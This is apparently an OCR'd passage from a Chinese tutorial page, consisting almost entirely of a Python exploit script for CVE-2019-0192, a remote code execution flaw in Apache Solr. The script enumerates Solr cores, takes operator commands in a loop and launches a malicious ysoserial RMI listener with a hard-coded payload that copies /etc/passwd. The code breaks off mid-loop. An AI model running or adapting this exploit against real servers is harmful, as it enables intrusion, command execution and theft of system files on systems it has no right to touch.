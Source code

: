 然后执行一下脚本

    import base64
    import requests
    import subprocess
    import signal
    import sys
    import os
    import time
    import re

    remote = "http://172.18.0.5:8983"
    ressource = ""
    RHOST = "172.18.0.1"
    RPORT = "1099"

    proxy = {
    }

    def exploit(command):
        print("\n Run the malicious RMI server using yoserial by running this command:")
        print("\n java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21" + command)
        

    if __name__ == "__main__":
        print("\nCVE-2019-0192 - Apache Solr RCE 5.0.0 to 5.5.5 and 6.0.0 to 6.6.5\n")
        print("[+] Checking if ressource available =>", end=' ')

        burp0_url = remote + "/solr/admin/cores?wt=json"
        r = requests.get(burp0_url, proxies=proxy, verify=False, allow_redirects=False)
        if r.status_code == 200:
            if r.json()['status'] == "":
                print("KO")
                sys.exit()
            else:
                a = list(r.json()['status'].keys())
                ressource = "/solr/" + a[0] + "/config"
                print(ressource)
        else:
            print("KO")
            sys.exit()

        while True:
            try:
                command = input("command (\033[92mnot reflected\033[0m)> ")
                if command == "exit":
                    print("Exiting...")
                    break
                command = base64.b64encode(command.encode('utf-8'))
                command_str = command.decode('utf-8')
                command_str = command_str.replace('/', '+')

                pro = subprocess.Popen(
                    "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'cp /etc/passwd /tmp/passwd'", stdout=subprocess.PIPE,shell=True, preexec_fn=os.setsid)
